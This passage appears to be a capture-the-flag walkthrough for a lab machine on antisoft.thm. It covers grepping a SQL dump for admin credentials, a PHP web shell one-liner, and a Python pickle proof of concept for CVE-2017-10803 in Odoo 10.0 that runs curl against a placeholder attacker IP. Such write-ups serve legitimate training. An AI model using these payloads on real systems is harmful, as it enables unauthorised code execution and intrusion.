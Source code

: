 The `dump.sql` file is what we're after  
After cating out the file I realized that it's a huge file to scroll through manually so I used **grep**  
Since we are looking for an email address to login and since we know the domain name is `antisoft.thm` we can simply grep for `antisoft.thm`

```bash
grep -iE "*@antisoft\.thm"
```

![d57bdf6038520c6723d5337e34cc7df8.png](d57bdf6038520c6723d5337e34cc7df8.png){: w="700" .center}

- We find an email address called `admin@antisoft.thm`
- We also find a **pbkdf2-sha512 hash** which is a nightmare to crack since it takes a while
- I just tried using the **email address and the password that we already have** and I was able to login

![eb18671dd230ed9f8da29da2421d08c6.png](eb18671dd230ed9f8da29da2421d08c6.png){: w="700" .center}

### Reverse shell

My first thought after going through the apps list was to install the "Website Builder" and edit some template php file to add `<?php system($_GET['cmd']); ?>` and get a reverse shell.  
After installing it though, I couldn't find a way to manually edit any php code. So I started enumerating...

In the `Settings` page we can see that this is `Odoo 10.0`  
![21af948bd32e2208c9900e2462024cc2.png](21af948bd32e2208c9900e2462024cc2.png){: w="700" .center}
A quick google search shows that there is a **code execution vulnerability and an exploit** for this version.  
**CVE:** `CVE-2017-10803`  
**Exploit-db:** https://www.exploit-db.com/exploits/44064  
**Searchsploit:** linux/local/44064.md

> One of the core Odoo modules, Database Anonymization, allows an administrator to anonymize the contents of the Odoo database. The module does this by serializing the contents of the existing database using Python’s pickle module into a backup file before modifying the contents of the database. The administrator can then de-anonymize the database by loading the pickled backup file.
> 
> Python’s pickle module can be made to execute arbitrary Python code when loading an attacker controlled pickle file. With this, an administrator can execute arbitrary Python code with the same privilege level as the Odoo webapp by anonymizing the database then attempt the de-anonymization process with a crafted pickle file.

### PoC

```python
import pickle # change this from 'cPickle'
import os
import base64
import pickletools

class Exploit(object):
    def __reduce__(self):
        # Run a python server on your local machine "python3 -m http.server 80"
        # Use curl to see if payload is being executed
        return (os.system, (("curl <attacker ip>/test"),))

with open("exploit.pickle", "wb") as f:
    pickle.dump(Exploit(), f, pickle.HIGHEST_PROTOCOL)
```
